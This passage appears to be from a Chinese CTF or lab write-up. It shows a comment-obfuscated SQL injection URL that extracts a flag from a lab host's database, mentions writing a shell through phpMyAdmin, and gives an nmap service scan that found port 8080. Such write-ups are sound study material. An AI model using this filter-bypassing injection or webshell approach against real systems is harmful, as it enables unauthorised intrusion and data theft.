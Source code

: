 爆数据：

```
http://172.16.8.8/product.php?id=12'/*%!AA*/union/*%!AA*/select/*%!AA*/1,flag,3,4,5,6/*c'*/from/*c'*/flag -- -	
```

![](/images/2018-half-year-wp/10.png)

后面发现，有phpmyadmin(当时没想到要扫服务，毕竟VMware vSphere性能有限，如果都做扫描的话，网站可能会承受不住)，可以登录写shell。

# 0x03 另一个入口

扫描端口，发现还有8080端口

nmap -F -sV -Pn 172.16.8.8

![](/images/2018-half-year-wp/11.png)
